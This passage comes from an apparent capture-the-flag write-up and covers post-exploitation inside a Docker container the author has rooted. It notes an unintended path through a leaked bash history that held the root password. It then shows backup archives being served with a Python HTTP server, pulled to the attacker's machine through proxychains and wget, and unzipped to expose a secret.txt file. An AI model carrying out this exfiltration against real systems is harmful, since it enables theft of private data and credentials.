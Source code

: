 And we've gained access to the Docker container as root. When we originally set up this machine, the creator forgot to delete the `bash_history`, allowing us to obtain the root's password. Unfortunately for you, the machine has  been patched, and now we have to proceed as it was originally designed. Haha.

````bash
root@a4b9a36ae7ff:~# ls -la
total 20
drwx------ 1 root root 4096 Sep 26 10:52 .
drwxr-xr-x 1 root root 4096 Sep 26 11:03 ..
lrwxrwxrwx 1 root root    9 Sep 26 10:51 .bash_history -> /dev/null
-rw-r--r-- 1 root root  571 Apr 10  2021 .bashrc
drwxr-xr-x 1 root root 4096 Sep 13 12:24 .local
-rw-r--r-- 1 root root  161 Jul  9  2019 .profile
````

### Enumerating the docker
---
While enumerating the contents of the Docker container, we found an interesting backup, which we will transfer to our machine using `wget` along with `proxychains4`

````bash
root@a4b9a36ae7ff:/datastore/Backups# python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
172.17.0.1 - - [31/Jan/2025 17:16:52] "GET /changedetection-backup-20240830194841.zip HTTP/1.1" 200 -
172.17.0.1 - - [31/Jan/2025 17:17:41] "GET /changedetection-backup-20240830202524.zip HTTP/1.1" 200 -
````

````bash
proxychains4 wget 172.17.0.2:8080/changedetection-backup-20240830194841.zip
proxychains4 wget 172.17.0.2:8080/changedetection-backup-20240830202524.zip

````

We will now decompress the `.zip` files to see what we find.

````bash
❯ unzip *.zip
❯ unzip changedetection-backup-20240830194841.zip
Archive:  changedetection-backup-20240830194841.zip
   creating: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/
 extracting: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/f04f0732f120c0cc84a993ad99decb2c.txt.br  
 extracting: b4a8b52d-651b-44bc-bbc6-f9e8c6590103/history.txt  
  inflating: secret.txt              
  inflating: url-list.txt            
  inflating: url-list-with-tags.txt  
  inflating: url-watches.json        
❯ ls
 b4a8b52d-651b-44bc-bbc6-f9e8c6590103        changedetection-backup-20240830202524.zip   url-list-with-tags.txt   url-watches.json
 changedetection-backup-20240830194841.zip   secret.txt                                  url-list.txt            
❯ cd b4a8b52d-651b-44bc-bbc6-f9e8c6590103
❯ ls
 f04f0732f120c0cc84a993ad99decb2c.txt.br   history.txt
````

